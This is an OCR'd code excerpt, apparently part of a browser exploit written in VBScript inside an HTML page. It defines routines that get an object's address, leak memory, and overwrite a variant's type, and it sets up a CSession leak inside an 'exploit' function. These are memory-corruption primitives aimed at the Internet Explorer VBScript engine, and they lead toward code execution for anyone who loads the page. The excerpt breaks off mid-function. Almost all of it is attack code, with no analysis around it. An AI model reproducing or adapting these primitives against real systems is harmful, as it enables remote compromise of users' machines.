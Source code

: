 ```html
            Set aw = New ArrayWrapper

            For i = 0 To 32
                Set plunge(i) = s
            Next

            Set aw.A(arg1, 2) = s

            Dim addr
            Dim i
            For i = 0 To 31
                If Asc(Mid(y(i), 3, 1)) = VarType(s) Then
                    addr = strToInt(Mid(y(i), 3 + 4, 2))
                End If
                y(i) = Null
            Next

            If addr = Null Then
                document.location.href = document.location.href
                Return
            End If

            getAddr = addr
        End Function

        Function leakMem (arg1, addr)
            d = prefix & "%u0008%u4141%u4141%u4141"
            c = d & intToStr(addr) & b
            x = UnEscape(c)

            aw = Null
            Set aw = New ArrayWrapper

            Dim o
            o = aw.A(arg1, 2)

            leakMem = o
        End Function

        Sub overwrite (arg1, addr)
            d = prefix & "%u400C%u0000%u0000%u0000"
            c = d & intToStr(addr) & b
            x = UnEscape(c)

            aw = Null
            Set aw = New ArrayWrapper

            ' Single has vartype of 0x04
            aw.A(arg1, 2) = CSng(0)
        End Sub

        Function exploit (arg1)
            Dim addr
            Dim csession
            Dim olescript
            Dim mem

            ' Create a vbscript class instance
            Set dm = New Dummy
            ' Get address of the class instance
            addr = getAddr(arg1, dm)
            ' Leak CSession address from class instance
            mem = leakMem(arg1, addr + 8)
```